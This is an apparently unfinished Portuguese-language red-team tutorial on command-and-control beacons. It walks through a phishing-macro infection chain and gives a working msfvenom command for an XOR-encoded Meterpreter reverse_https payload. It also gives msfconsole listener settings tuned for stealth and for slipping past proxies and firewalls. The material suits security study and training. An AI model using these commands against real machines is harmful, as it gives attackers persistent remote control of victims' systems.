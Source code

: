 
As comunicações de comando e controlo (C&C ou C2) representam interações maliciosas estabelecidas entre um servidor de controlo e um sistema comprometido. O elemento responsável por estabelecer esta ligação, geralmente um ficheiro ou processo malicioso presente na máquina infetada, é conhecido como beacon C2.

Imaginemos um cenário realista: um utilizador recebe um e-mail de phishing e, ao clicar no anexo (um ficheiro `.doc` malicioso), executa sem saber uma macro embutida. Esta macro faz o download de um ficheiro `.exe` alojado num servidor controlado por um atacante. Uma vez executado, esse `.exe` estabelece uma ligação remota com o servidor do atacante, garantindo-lhe acesso persistente à máquina comprometida.

Este ficheiro `.exe`, que mantém comunicações periódicas com o servidor C2, é conhecido como **beacon C2**. 

Embora semelhante a um shell reverso, um beacon C2 vai muito além: 
Integra funcionalidades como elevação de privilégios, movimentação lateral, captura de credenciais e execução modular de comandos. 

Frameworks como **Metasploit**, **Empire**, **Cobalt Strike**, **Sliver**, entre outros, são frequentemente utilizados por equipas de Red Team e por adversários reais para este tipo de operação.

#### Criação de um Beacon C2 com o `msfvenom`

A ferramenta `msfvenom` é parte integrante do **Metasploit Framework** e permite gerar cargas maliciosas (payloads) personalizadas. 

```python
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.4 LPORT=443 -f c -e x64/xor_dynamic -b "\x00"


```


#### Explicação dos parâmetros:

- `-e x64/xor_dynamic`: aplica encoding XOR dinâmico.
    
- `-b "\x00"`: evita caracteres nulos.
    
- Usa `reverse_https` para aumentar stealth e bypass de proxies/firewalls.

![](../anexos/Pasted%20image%2020250503113019.png)

#### Configuração do Listener no Metasploit

No terminal do Metasploit (`msfconsole`), configura-se o listener:

```python
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.1.4
set LPORT 443
set ExitOnSession false
set EnableStageEncoding true
```

![](../anexos/Pasted%20image%2020250422213710.png)


##### Próximo passo

Agora só falta executar o `notepad.exe` na máquina alvo (Windows) para que a sessão Meterpreter seja iniciada. 




## RESTANTE CONTEUDO EM DESENVOLVIMENTO